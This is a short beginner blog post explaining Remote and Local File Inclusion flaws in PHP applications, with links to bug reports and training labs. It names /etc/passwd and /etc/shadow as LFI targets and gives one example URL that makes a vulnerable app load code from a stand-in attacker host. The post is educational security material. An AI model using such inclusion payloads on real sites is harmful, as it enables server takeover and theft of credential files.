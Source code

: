 # <center> RFI and LFI, explained and what’s the difference between them? </center>

Hello everyone! <br> Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
<br>
Let's see now:
<br>
In the easiest way if we want to explain it, we'll say it like this <br>
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
<br>
<center> <img src="lfi-example.PNG"/> </center>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in 
RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
You could execute malicious code from the <code> file.php </code> file and use it for evil intention. <br>
<br>
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. <br>
<br>
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br> <br>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br> <br>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br> <br>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br> <br>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br> <br>
<a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
 so you get notified when I post another blog. Oh yeah I almost forgot, don't forget to join a <a href="discord.gg/bugbounty">Discord Bug Bounty</a> server with great community there, you can ask
 for help there if you need it.

